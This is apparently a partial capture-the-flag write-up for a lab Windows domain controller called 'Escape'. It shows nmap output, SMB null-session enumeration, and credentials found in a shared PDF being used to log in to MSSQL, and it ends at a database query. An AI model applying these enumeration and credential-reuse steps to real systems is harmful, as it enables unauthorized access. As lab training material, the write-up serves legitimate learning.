- Machine Name: Escape
- OS type: Windows
- Difficulty: Intermediate

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Wed Apr  9 13:13:38 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.202
Nmap scan report for 10.10.11.202
Host is up, received echo-reply ttl 127 (0.33s latency).
Scanned at 2025-04-09 13:13:39 EDT for 1457s
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-10 01:35:59Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-04-10T01:37:34+00:00; +7h59m42s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-10T01:37:33+00:00; +7h59m42s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-04-10T01:37:34+00:00; +7h59m42s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-10T01:11:39
| Not valid after:  2055-04-10T01:11:39
| MD5:   3345:76de:78f5:20d5:29e6:3f30:be5b:2a1a
| SHA-1: 83fa:788f:77d1:0815:6581:082a:0c6f:be0f:6590:7914
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQHCR4vo3t7JFH25pv7GjtMDANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUwNDEwMDExMTM5WhgPMjA1NTA0MTAwMTExMzlaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALbvKW8b
| LgiTqnMSl+g7fGyyLJs6q7YyGhUJaBfkehlWqvd1jPKKNW9hCxVam3jhZkh/Z73k
| iDUtCtiGClDBRWu/MM2c0LZccB1VgtZPmz6Y2aW9yQ8idN882JZ08gtn4S9LGlR7
| GUXW1ObSKPy2f+GBAvcwm5D2BbvBrVs8DRwcg/nZNhB3gwPiwF3denwg6E7km4La
| Jm4ERsQ8SJ7XQLWyzYspAXC+5AINJcHL5WVydOXf3kXbiG7Qedn3UxVcayx082iK
| whNA3jmlpkylU5huOXAkcHFaH2zjjQQTDIjRN7DmcEO4dNI4Mx8CIsaOwcxolNX1
| nsNocuXqti6htPECAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAkDYomJJD8p6bUlEI
| PSdtfA06nRTQK3p272qaVC4fevffvTY0AWTdK8MjeoinhivHiDarEkJLuQaKlH1k
| EmWED8KQGbPaK9Q3X9oy+D9L7i6JuNKrIHPQ/oF8Pqq9gy+EZt05PosMmhhrNNbB
| dKBdnge5+zjYQX0m+5RoqwO80B4b1lPSGZCQ8/pegTarYsCwkn28VwNU3oRLwgmT
| 4hoIa3I+e6/7eMtnV32F3CnZfnpAA2yu1sZOXdoAq7lehP1rxBlvoarBDi2w9YVF
| 9Vcf4EsUyPu5uBlgmyPJBoZW6AJaIMPzbuZS9tBtWZBvD7HOcIkmrY/gkGPBQl51
| 7dzFLg==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-04-10T01:37:34+00:00; +7h59m42s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-10T01:37:33+00:00; +7h59m42s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
| SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
| -----BEGIN CERTIFICATE-----
| MIIFkTCCBHmgAwIBAgITHgAAAAsyZYRdLEkTIgAAAAAACzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
| MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwIBcNMjQwMTE4MjMwMzU3WhgPMjA3NDAx
| MDUyMzAzNTdaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCvfUDG
| vZbf6oLv67FXEoeqi+VUDMwFcCWGOpwAlEvMCRhMa2Jqx6nVSl+7URU0rF43c58A
| kAFbwX9E5B4Me4ZDkqkHV5nBBkHEPdDP4ZlYsjAmVrz7bHAzp3coDgF9UKv9S4j8
| g9P8MPaOdxTRR6dwkhVWdIDvIevjeg7oWTawG7MFEX4b7BEwL/uNRYZtyFHrfmzP
| BL5MovrBbZzU4AnggnvpeiLNdenK9Xcp2IIDr8A7h7uFuQ+3pCbXL9El/vEgzxAj
| rsUhf2e6nxNAWrNZSFXLHREt9uFkhTWU26Zoa675Vjq0XNy7J+rXAZiU5q3eD4Kq
| /SiN+ZDAwWJ22XGJAgMBAAGjggK8MIICuDA4BgkrBgEEAYI3FQcEKzApBiErBgEE
| AYI3FQiHq/N2hdymVof9lTWDv8NZg4nKNYF3ASECAW4CAQIwMgYDVR0lBCswKQYI
| KwYBBQUHAwIGCCsGAQUFBwMBBgorBgEEAYI3FAICBgcrBgEFAgMFMA4GA1UdDwEB
| /wQEAwIFoDBABgkrBgEEAYI3FQoEMzAxMAoGCCsGAQUFBwMCMAoGCCsGAQUFBwMB
| MAwGCisGAQQBgjcUAgIwCQYHKwYBBQIDBTAdBgNVHQ4EFgQUCVbgZp4lOmGws1z7
| bP3InfTiHiMwHwYDVR0jBBgwFoAUYp8yo6DwOCDUYMDNbcX6UTBewxUwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2VxdWVsLURDLUNBLENOPWRj
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNlcXVlbCxEQz1odGI/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG9BggrBgEFBQcBAQSBsDCBrTCBqgYIKwYBBQUHMAKGgZ1sZGFwOi8vL0NOPXNl
| cXVlbC1EQy1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049
| U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRiP2NBQ2Vy
| dGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5
| MC8GA1UdEQEB/wQlMCOCDWRjLnNlcXVlbC5odGKCCnNlcXVlbC5odGKCBnNlcXVl
| bDANBgkqhkiG9w0BAQsFAAOCAQEAK2aJVbODF+3XQ85GflrcPthxILDslZoJff13
| ULw9IQRwFbr5wV/usQR8WXfp4FGWB7g6F3w4vOo8Wnm0eTcQM+N2Ry3aEWiv9SG8
| /Vk18Z1sSU2hzlTdZbVJWgZwCyPvYoV02uPkP12f+Z9groRTtOEBq0AgdMDc5hZ/
| A8Ikn9UuctvkX6qgw+ofyVveIqsE0GL6DCDGw6iUmXIgVJk5fgQnfyQquqnmhVnA
| 8NoXXuh0ioTHmCqYrdtIcB8KC4nS70p3ef2F2fTNejqtw46M04VZQw/67Y+83hI5
| I1fLChrYFtPk3g5JHaHyIE9aY3EUmU3EH2SKhRSi5R6GJBctmw==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49724/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
	49743/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63970/tcp): CLEAN (Timeout)
|   Check 2 (port 62013/tcp): CLEAN (Timeout)
|   Check 3 (port 50586/udp): CLEAN (Timeout)
|   Check 4 (port 32529/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h59m41s, deviation: 0s, median: 7h59m41s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-10T01:36:56
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  9 13:37:56 2025 -- 1 IP address (1 host up) scanned in 1458.07 seconds
```

## Enumeration

### Port 139,445/SMB

let’s check the SMB for Null session

```bash
smbclient -L //10.10.11.202 -N
```



let’s connect all shares one by one and check if we have anything

first we tried NETLOGON, we don’t have listing permissions same for the SYSVOL

let’s run enum4linux using 

```bash
enum4linux -a 10.10.11.202
```



we found Domain Name and Domain SID, let’s Note the Domain SID it can be used on later attacks



let’s download file using `get "SQL Server Procedures.pdf"` 



let’s read the SQL server Procedures.pdf 



we found the user PublicUser and password GuestUserCanWrite1 what about give try to SQL server login

```bash
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCanWrite1@10.10.11.202
```



let’s check the available databases in sql server using `SELECT name FROM master.sys.databases` 

